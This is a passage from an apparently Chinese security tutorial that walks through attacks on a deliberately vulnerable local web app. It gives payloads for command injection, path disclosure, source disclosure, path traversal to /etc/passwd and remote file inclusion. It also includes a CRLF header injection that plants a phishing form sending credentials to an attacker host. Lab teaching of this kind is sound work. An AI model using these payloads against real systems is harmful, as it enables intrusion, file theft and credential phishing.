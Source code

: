 EXPLOIT:

http://127.0.0.1:65412/?domain=www.google.com; ifconfig

4.3.8 Full Path Disclosure

完整路径泄露: 全路径泄露漏洞使攻击者能够看到Web应用程序在服务器端的完整路径(例如：/var/www/html/)。攻击者会结合其他漏洞对Web系统进一步的攻击(如: 写 Webshell)。

漏洞地址:    
http://127.0.0.1:65412/?path=

EXPLOIT:

http://127.0.0.1:65412/?path=foobar

4.3.9 Source Code Disclosure

源码泄露: 该漏洞会造成允许未授权用户获得服务器端应用程序的源代码。此漏洞会造成企业内部的敏感信息泄露或容易遭受恶意攻击者攻击。

漏洞地址:    
http://127.0.0.1:65412/?path=

EXPLOIT:

http://127.0.0.1:65412/?path=dsvw.py

4.3.10 Path Traversal

路径穿越: 路径遍历攻击（也称为目录遍历）旨在访问存储在Web根文件夹外部的文件和目录。通过使用 “../” 或 “..\” 等相对文件路径方式来操纵引用文件的变量，该漏洞会允许访问存储在文件系统上的任意文件和目录。

漏洞地址:    
http://127.0.0.1:65412/?path=

EXPLOIT:

http://127.0.0.1:65412/?path=../../../../../../etc/passwd

4.3.11 File Inclusion (remote)

远程文件包含: 通常利用目标应用程序中实现的 “动态文件包含” 机制，允许攻击者包括一个远程文件。 由于对用户输入的数据没有进行适当的验证，导致出现漏洞。

漏洞地址:    
http://127.0.0.1:65412/?include=

EXPLOIT:

http://127.0.0.1:65412/?include=http://pastebin.com/raw.php?i=N5ccE6iH&cmd=ifconfig

4.3.12 HTTP Header Injection (phishing)

HTTP响应头拆分(钓鱼): 用户提交的部分参数, 没有经过验证或过滤直接在响应头中输出, 由于HTTP的Header中使用了CRLF(url中的%0d%0a)来分割各个字段中的数据。恶意用户可以构造特殊的数据应该欺骗钓鱼。

漏洞地址:    
http://127.0.0.1:65412/?charset=utf8

EXPLOIT:

http://127.0.0.1:65412/?charset=utf8%0D%0AX-XSS-Protection:0%0D%0AContent-Length:388%0D%0A%0D%0A<!DOCTYPE html><html><head><title>Login</title></head><body style='font: 12px monospace'><form action="http://attacker.co.nf/i/log.php" onSubmit="alert('visit \'http://attacker.co.nf/i/log.txt\' to see your phished credentials')">Username:<br><input type="text" name="username"><br>Password:<br><input type="password" name="password"><input type="submit" value="Login"></form></body></html>
